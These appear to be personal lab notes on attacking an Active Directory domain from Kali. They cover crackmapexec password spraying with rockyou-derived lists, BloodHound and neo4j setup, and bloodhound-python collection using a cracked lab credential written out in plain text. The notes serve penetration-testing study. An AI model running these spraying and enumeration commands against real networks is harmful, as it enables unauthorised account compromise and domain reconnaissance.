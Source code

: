 # Working with a Kali machine

- Used crackmapexec to crack user:pass combinations for low level users on the DC from files we created.

  added random passwords from rockyou.txt into passwords.txt\
  added random users from the user.txt file

- To run properly crackmapexec command had to configure the /etc/hosts file and the /etc/resolve.conf to add the DC address to it
  crackmapexec smb <ip> -u users.txt -p passwords.txt

  Continue enumerating even when the user:pass combination has been found for a user\
  crackmapexec smb 192.168.8.155 -u users.txt -p passwords.txt --continue-on-success

- Getting ready for bloodhound installing with neo4j  
  sudo echo "deb http://httpredir.debian.org/debian stretch-backports main" | sudo tee -a /etc/apt/sources.list.d/stretch-backports.list\
  sudo apt-get update\
  wget -O - https://debian.neo4j.com/neotechnology.gpg.key | sudo apt-key add -\necho 'deb https://debian.neo4j.com stable latest' >     /etc/apt/sources.list.d/neo4j.list\nsudo apt-get update\
  sudo apt-get install apt-transport-https\
  sudo apt-get install neo4j

  Access the gui (localhost:7474) and changed the default password for neo4j


- Installed bloodhound latest release from https://github.com/BloodHoundAD/BloodHound/releases
  ./BloodHound\

  ...Starting bloodhound....
  
- Sharphound python version from github https://github.com/fox-it/BloodHound.py\
  pip install bloodhound\
  added bloodhound-python to the $PATH\
  /home/user/.local/bin\
  subl ~/.zshrc\
  source ~/.zshrc\
  added /home/user/.local/bin to the file
  
  Running the command with the default username and password we had found with crackmapexec earlier\
  bloodhound-python -u adavies -p eminem -dc dc1.xyz.com --disable-autogc -d xyz.com\
  
  To get All\
  bloodhound-python -u adavies -p eminem -dc dc1.xyz.com --disable-autogc -d xyz.com -c All

- the output generates multiple .json files we can use to upload into the bloodhound GUI and analyze the AD users,groups, and other parameters
- Installed bloodhound, neo4j, and a python version of sharphound (bloodhound-python)  
